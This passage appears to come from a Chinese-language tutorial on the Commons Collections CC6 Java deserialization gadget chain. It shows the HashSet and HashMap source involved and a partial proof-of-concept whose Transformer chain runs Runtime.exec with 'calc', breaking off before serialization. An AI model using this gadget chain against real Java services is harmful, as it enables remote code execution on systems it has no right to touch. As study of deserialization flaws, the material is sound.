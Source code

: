 `HashSet#readObject`会调用HashMap的`put`方法，正好可以跟上面链接起来

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    ......
    	// Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }

// HashMap#put
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

### poc

CC6利用链和poc如下

```java
/*
   Gadget chain:
       java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
*/
public static void main(String[] args) throws Exception {
        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
    
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");

        HashSet hashSet = new HashSet(1);
        hashSet.add(tiedMapEntry);
    	// 由于创建hashset后，会自动给lazyMap添加一个key-value，所以要remove掉这个键值对
		// 以保证lazyMap.get时，map.containsKey(key) == false，从而进入transform函数
```